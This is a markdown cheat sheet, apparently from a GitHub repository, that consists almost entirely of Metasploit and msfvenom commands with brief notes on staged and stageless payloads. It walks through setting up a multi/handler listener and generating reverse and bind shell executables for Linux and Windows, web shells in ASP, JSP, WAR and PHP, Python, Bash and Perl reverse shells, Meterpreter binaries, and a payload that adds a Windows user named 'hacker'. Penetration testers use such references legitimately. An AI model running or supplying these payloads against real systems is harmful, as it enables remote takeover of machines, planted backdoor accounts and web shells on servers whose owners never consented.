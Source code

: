 # Metasploit Handler:

LHOST=local host

LPORT=local port

RHOST=remote host

RPORT=remote port

```
msfconsole -q
show options
show payloads
use exploit/multi/handler
set PAYLOAD <Payload name>
show options
Set RHOST <Remote IP>
set LHOST <Local IP>
set LPORT <Local Port>
Run
```

## List payloads:
```
msfvenom -l
```

## search for cmd/unix payloads
```
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
```

## look at payload options:
```
msfvenom --payload-options -p windows/shell/reverse_tcp
```

## Staged payloads: 
Staged payloads are denoted with the use of a forward slash (/; e.g. windows/shell/reverse_tcp). Staged payloads send a small stager to the target, which connects back to the attacker and downloads the rest of the payload. Therefore, staged payloads need special payload listeners, such as multi/handler in Metasploit. Staged payloads are ideal in situations where you have limited shellcode space, most commonly in Buffer Overflows.

## Stageless payloads:
Stageless payloads are denoted with the use of an underscore (_; e.g. windows/shell_reverse_tcp). Stageless payloads send the entire payload to the target at once, and therefore don’t require the attacker to provide more data. That means we have a variety of listeners we can use, such as Netcat.

# Non-Meterpreter Binaries
## Stageless Payloads for Linux:
```
x86 	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64 	msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Stageless Payloads for Windows:
```
x86 	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64 	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Staged Payloads for Linux:
```
x86	msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64 	msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Staged Payloads for Windows:
```
x86	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Web Payloads:
```
asp	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
jsp	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
war	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
php	msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

## Scripting Payloads:
```
Python	msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
Bash	msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
Perl	msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
```

## Binaries Payloads:
```
Linux Bind Shell	msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf
Windows Reverse Shell	msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```

## Create User
```
msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe
```


# Meterpreter Binaries
## Staged Payloads for Windows:
```
x86	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Stageless Payloads for Windows:
```
x86	msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Staged Payloads for Linux:
```
x86	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Stageless Payloads for Linux:
```
x86	msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Meterpreter Web Payloads:
```
asp	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
jsp	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp
war	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war
php	msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
